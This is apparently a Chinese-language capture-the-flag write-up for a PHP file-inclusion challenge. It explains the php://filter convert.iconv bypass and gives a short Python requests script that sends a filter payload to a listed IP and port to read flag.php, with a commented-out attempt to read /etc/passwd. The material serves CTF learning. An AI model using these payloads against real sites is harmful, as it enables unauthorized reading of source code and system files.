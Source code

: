 # file_include

知识点：convert.iconv.* 绕过

[详解php://filter以及死亡绕过](https://blog.csdn.net/woshilnp/article/details/117266628)

[writeup](https://blog.csdn.net/yuanxu8877/article/details/127607264)

`php://filter/convert.base64-encode/resource=index.php`如果没有过滤的话，可直接读取当前文件内容，同理一旦绕过过滤，check.php和flag.php就都能读到了，详细绕过过滤的教程见上面。

```python
import requests

# 目标URL
url = "http://61.147.171.105:60022/"
# payload= {'filename': '/etc/passwd'}
payload= {'filename': 'php://filter/convert.iconv.SJIS*.UCS-4*/resource=flag.php'}

response = requests.get(url, params=payload)
print(response.text)
```

